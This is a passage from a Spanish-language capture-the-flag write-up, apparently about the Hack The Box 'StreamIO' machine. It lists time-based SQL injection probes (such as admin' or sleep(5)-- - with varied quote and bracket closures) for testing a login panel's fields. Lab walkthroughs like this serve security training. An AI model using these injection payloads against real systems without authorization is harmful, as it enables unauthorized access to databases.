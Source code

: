 Una página para ver peliculas en internet, interesante, y vemos un "Login" es la esquina 

<img src="/assets/images/htb/streamio/streamio2.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Bueno, no tenemos credenciales y nos podemos registrar... o intentar unas Injecciones SQL, para ellos nos vamos a <a href="https://book.hacktricks.xyz/pentesting-web/sql-injection#entry-point-detection" target="_blank">HackTricks</a> para ver cuales posibles caracteres a intentar y ver si funcionan o seguimos otro camino


Veamos si el panel en los dos campos, 'Username' y 'Password' son vulnerables, para ello le pediremos a la web que tarde 5 segundos en responder, de lo contrario, probaremos otro metodo
```sql
admin[Nada] or sleep(5)-- -
admin[Nada] and sleep(5)-- -

admin' or sleep(5)-- -
admin' and sleep(5)-- -

admin" or sleep(5)-- -
admin" and sleep(5)-- -

admin` or sleep(5)-- -
admin` and sleep(5)-- -

admin') or sleep(5)-- -
admin') and sleep(5)-- -

admin") or sleep(5)-- -
admin") and sleep(5)-- -

admin`) or sleep(5)-- -
admin`) and sleep(5)-- -

admin')) or sleep(5)-- -
admin')) and sleep(5)-- -

admin")) or sleep(5)-- - 
admin")) and sleep(5)-- -

admin`)) or sleep(5)-- -
admin`)) and sleep(5)-- -
```
